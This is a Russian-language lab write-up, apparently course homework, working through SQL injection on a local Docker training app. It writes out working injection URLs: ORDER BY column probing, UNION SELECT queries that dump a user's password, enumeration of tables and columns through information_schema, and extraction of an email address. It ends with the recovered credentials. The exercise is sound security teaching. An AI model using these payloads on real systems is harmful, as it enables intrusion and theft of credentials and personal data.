По Verizon DBIR 2025 веб-приложения остаются одним из основных векторов проникновения.
Интенсивность атак значительно различается в зависимости от сферы деятельности:
На основе BI.ZONE и аналитики за 2024-2025 годы, распределение наиболее часто эксплуатируемых методов выглядит:
Перехожу в директорию, где лежит файл docker-compose.yml.
Потом ввожу команду и запускаю
docker compose up -d
Открываю по адресу http://localhost:8080


сначала я решила проверить, как реагирует на стандартные спецсимволы в параметре id.
http://localhost:8080/task/?id=1'

далее необходимо было определить количество столбцов в запросе через ORDER BY.
здесь я столкнулась с ситуацией, запросы ORDER BY 10-- и ORDER BY 20-- не приводили к ошибке и обрезают результат до одной строки. http://localhost:8080/task/?id=1+ORDER+BY+20--+
На странице по-прежнему отображался

я решила найти целевых пользователей прямым перебором id.
перебирая значения id, я обнаружила, что пользователь с ником Volk2 имеет идентификатор 2. и нашла винни пуха id=4.


я попыталась использовать инъекцию типа UNION SELECT, чтобы подменить вывод приложения на данные из таблицы users.
http://localhost:8080/task/?id=' UNION SELECT password, username FROM users WHERE id=2 --

попробовала заменить -- на символ #, который также является комментарием.
http://localhost:8080/task/?id=' UNION SELECT password, username FROM users WHERE id=2 #
оба варианта выдали ошибку синтаксиса.
проблема в том, что я использую существующий id=2. сервер выполняет мой UNION, но потом накладывает свой LIMIT 0,1 на результат объединения, и из-за синтаксических нюансов и запрос ломается.
надо использовать несуществующий id, чтобы основной запрос ничего не нашел, и сервер вывел только результат моего UNION.
и закодировать пробелы в URL, чтобы сервер точно правильно прочитал комментарий. Вместо обычного пробела использовала %20, а вместо -- взяла символ %23.
http://localhost:8080/task/?id=-1' UNION SELECT username, password, 3 FROM users WHERE username='Volk2'%23

сначала нашла id пользователя Vinni-pukh перебором (id = 4).
я предположила, что почта хранится не в таблице users, а в отдельной таблице.
чтобы проверить это, я использовала information_schema.tables, в которой хранятся все имена в таблице.
Так как приложение выводит только одну строку, мне пришлось перебирать таблицы по одной, используя смещение LIMIT.
http://localhost:8080/task/?id=-1'%20UNION%20SELECT%201,%20table_name,%203%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20LIMIT%200,1%23

теперь нужно понять, как называются поля внутри таблицы emails.
http://localhost:8080/task/?id=-1' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='emails'%20AND%20table_schema=database()%20LIMIT%200,1%23

запрос на второе поле,
http://localhost:8080/task/?id=-1' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='emails'%20AND%20table_schema=database()%20LIMIT%201,1%23

третий запрос (LIMIT 2,1) вернул пустой экран. значит в таблице emails всего два поля: id и email_id.
использую тот же трюк с -1 и кодировкой пробелов %20, который сработал в первом задании.
http://localhost:8080/task/?id=-1'%20UNION%20SELECT%20id,%20email_id,%203%20FROM%20emails%20WHERE%20id=4%23

ура! почта пользователя Vinni-pukh — honey_lover@otus-lab.com
итог:
пароль пользователя Volk2 — Wa spoiuuuuu
почта пользователя Vinni-pukh — honey_lover@otus-lab.com